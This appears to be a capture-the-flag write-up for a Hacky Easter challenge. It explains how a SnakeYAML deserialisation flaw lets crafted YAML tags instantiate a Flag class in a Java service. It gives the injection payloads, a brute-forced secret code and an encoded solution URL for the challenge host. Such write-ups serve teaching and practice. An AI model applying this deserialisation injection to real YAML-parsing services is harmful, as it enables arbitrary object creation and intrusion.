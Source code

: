 # solution

## analyze code given
- `Flag` class is a subclass of `Image`
- `Flag` constructor takes a `Code` instance
- `Code` constructor takes a `short`
- `Code` has a method `isCorrect()`:
  - `if (code > 0 && code < 500 && code == SnakeService.getSecretCode()) ...`
- SnakeYml is used to parse the input strings (*art* parameter)
  - `import org.yaml.snakeyaml.Yaml;`

## exploit
- SnakeYaml deserialisation vulnerability
    - instances of classes are created when passing a value like the following, in the YAML:
    - `!!my.class.Name ['param-for-constructor']`

- analyze the samples (base64 decode)
    ```
    bmFtZTogU25ha2VzIGF0IHRoZSBCZWFjaAppbWFnZTogc25ha2VzX2F0X3RoZV9iZWFjaApzb3VyY2U6IERBTEwtRQpyZXNvbHV0aW9uOiAyNTZ4MjU2
    ```
    decodes to
    ```
    name: Snakes at the Beach
    image: snakes_at_the_beach
    source: DALL-E
    resolution: 256x256
    ```

- idea: use vulnerability to make a `Flag` instance instantiate, instead of a normal `Image` instance -> `Flag` is a subclass of `Image`

- `image: !!com.hackyeaster.digitalsnakeart.Flag [ ... ]`

- constructor takes a `Code`, which takes a `short`, so the full injection looks like:
    ```
    name: flag
    image: !!com.hackyeaster.digitalsnakeart.Flag [!!com.hackyeaster.digitalsnakeart.Code [123]]
    ```

- the secret code must be brute-forced (range 1..499), scripting is required

- solution: code 198
    ```
    name: Flag
    image: !!com.hackyeaster.digitalsnakeart.Flag [!!com.hackyeaster.digitalsnakeart.Code [198]]
    ```

- `[Solution](http://ch.hackyeaster.com:2307/art?art=bmFtZTogRmxhZwppbWFnZTogISFjb20uaGFja3llYXN0ZXIuZGlnaXRhbHNuYWtlYXJ0LkZsYWcgWyEhY29tLmhhY2t5ZWFzdGVyLmRpZ2l0YWxzbmFrZWFydC5Db2RlIFsxOThdXQ==)`


# build
- see `src/rebuild.sh`